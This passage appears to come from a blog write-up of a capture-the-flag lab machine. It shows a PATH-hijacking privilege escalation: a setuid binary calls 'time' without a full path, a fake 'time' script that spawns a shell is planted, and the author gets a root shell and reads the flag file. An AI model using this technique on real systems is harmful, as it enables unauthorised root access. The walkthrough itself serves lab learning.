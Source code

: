 If we run strings on the binary, it's calling *time*

``
time ./
``

And if we call the binary on a non-existant file we get this:

{% highlight shell %}
erik@government:~/backups/nuclear$ ./remove a
./remove a
sh: 1: time: not found
{% endhighlight %}

Well then our path is clear:

{% highlight shell %}
erik@government:~/backups/nuclear$ export PATH=/home/erik/backups/nuclear:$PATH
erik@government:~/backups/nuclear$ printf 'sh\n' > time
printf 'sh\n' > time
erik@government:~/backups/nuclear$ chmod +x time
chmod +x time
erik@government:~/backups/nuclear$ ./remove a
./remove a
# id
id
uid=1000(erik) gid=1000(erik) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),1000(erik)
# cd /root
cd /root
# ls -lash
ls -lash
total 32K
4.0K drwx------  4 root root 4.0K Sep  1 19:12 .
4.0K drwxr-xr-x 22 root root 4.0K Aug 30 19:51 ..
   0 lrwxrwxrwx  1 root root    9 Sep  1 19:12 .bash_history -> /dev/null
4.0K -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4.0K drwxr-xr-x  2 root root 4.0K Aug 30 21:03 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   33 Aug 31 16:25 root.txt
4.0K drwxr-xr-x  2 root root 4.0K Aug 31 12:48 .rpmdb
4.0K -rw-r--r--  1 root root  169 Aug 30 23:10 .wget-hsts
# cat root.txt
cat root.txt
FLAG_GOES_HERE
{% endhighlight %}

So, this was pretty good. I've also done Stars, Serve and Hundred, maybe I'll write those up but not right now.
